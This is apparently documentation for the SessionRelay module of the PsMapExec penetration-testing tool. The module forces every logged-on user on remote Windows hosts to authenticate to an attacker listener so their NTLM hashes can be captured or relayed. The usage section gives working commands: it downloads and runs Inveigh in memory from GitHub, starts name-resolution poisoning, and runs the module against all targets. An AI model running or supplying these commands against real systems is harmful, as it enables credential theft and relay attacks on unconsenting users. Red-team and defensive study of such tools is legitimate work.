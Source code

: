 # SessionRelay

Creates a cmd.exe process as each user logon session on the remote system and connects back to a non-existent share to the host specified by `-ListenerIP`. This can then be used with tools such as Inveigh or Responder to capture NTLMv2 hashes, or with ntlmrelayx to relay captured hashes.

For example, assuming the below output. We can see the remote host currently has the users standarduser and srv2019-admin within existing logon sessions. PsMapExec can force each one of these users to to connect to a non-existing share on a listener and we can capture their NTLMv1 or NTLMv2 hashes.

```powershell
C:\Users\SRV2019-Admin>quser
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
 standarduser                              1  Disc            7  04/08/2024 17:14
 srv2019-admin         console             2  Active      none   04/08/2024 17:18
```

### **Supported Methods**

* SMB&#x20;
* SessionHunter (WMI)
* WMI&#x20;
* WinRM

### Optional Parameters <a href="#optional-parameters" id="optional-parameters"></a>

<table><thead><tr><th width="181">Parameter</th><th width="97">Value</th><th>Description</th></tr></thead><tbody><tr><td>-ShowOutput</td><td>N/A</td><td>Displays each targets output to the console</td></tr><tr><td>-SuccessOnly</td><td>N/A</td><td>Display only successful results</td></tr></tbody></table>

## Usage

Before using the module, ensure a listener such as Inveigh or Responder is running. The below example covers usage for capturing hashes with Inveigh.

<pre class="language-powershell"><code class="lang-powershell"># Load Inveigh into memory
iex (iwr -UseBasicParsing https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1)
<strong>
</strong><strong># Execute Inveigh (as admin), ensuring to specify the current systems IP address
</strong>Invoke-Inveigh -ConsoleOutput Y -NBNS Y -mDNS Y -HTTPS Y -Proxy Y -IP 10.10.10.7

# Run PsMapExec, ensuring -ListenerIP is set to the same IP address as above.
PsMapExec -Targets all -Method wmi -Module sessionrelay -ListenerIP 10.10.10.7
</code></pre>

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>Execution in PsMapExec</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption><p>Inveigh Output</p></figcaption></figure>
